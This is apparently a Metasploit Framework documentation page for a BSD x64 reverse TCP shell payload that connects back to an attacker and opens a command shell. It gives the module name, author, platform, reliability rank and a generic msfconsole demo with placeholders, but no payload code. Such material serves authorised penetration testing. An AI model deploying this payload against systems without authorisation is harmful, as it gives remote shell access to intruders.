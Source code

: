 ## BSD x64 Command Shell, Reverse TCP Inline

Connect back to attacker and spawn a command shell


## Module Name
payload/bsd/x64/shell_reverse_tcp_small

## Authors
Balazs Bucsay @xoreipeip <balazs.bucsay[-at-]rycon[-dot-]hu>





## Platforms
bsd

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/bsd/x64/shell_reverse_tcp_small
msf payload(shell_reverse_tcp_small) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp_small) > set TARGET <target-id>
msf payload(shell_reverse_tcp_small) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp_small) > run
```
    
    